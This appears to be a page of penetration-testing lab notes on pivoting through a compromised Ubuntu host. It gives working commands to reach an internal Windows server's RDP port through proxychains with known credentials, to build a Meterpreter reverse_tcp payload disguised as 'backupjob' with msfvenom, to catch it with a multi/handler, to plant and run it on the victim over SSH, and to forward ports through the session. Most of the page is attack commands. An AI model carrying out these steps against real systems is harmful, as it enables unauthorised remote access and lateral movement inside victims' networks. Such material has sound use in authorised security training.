 We have found $NewDiscoveredIp with open port 3389. We know the creds. So, with proxychain we can connect:

```shell-session
proxychains xfreerdp /v:$NewDiscoveredIp /u:$username /p:$password
```



#### Module `portfwd` in metasploit

Port forwarding can also be accomplished using Meterpreter's `portfwd` module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network


**1.** Create a payload for Ubuntu Pivot Host (our victim's machine 1):

```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip -f elf -o backupjob LPORT=8080
```

**2.** Start a multi/handler, also known as a Generic Payload Handler.

```shell-session
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```

**3.** Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```shell-session
# From kali, we copy the file
scp backupjob $username@$ip:~/

# Connect to the victim's machine
ssh $username@$ip
chmod +x backupjob 

# And execute it
./backupjob
```


**4.** Once the meterpreter Session is established, use Metasploit's post-exploitation `portfwd` module:

```
# List help
meterpreter> help portfwd

# Create Local TCP Relay: it requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server $NewDiscoveredIp on `3389` port (`-p`) via our Meterpreter session
meterpreter > portfwd add -l 3300 -p 3389 -r $NewDiscoveredIp
```
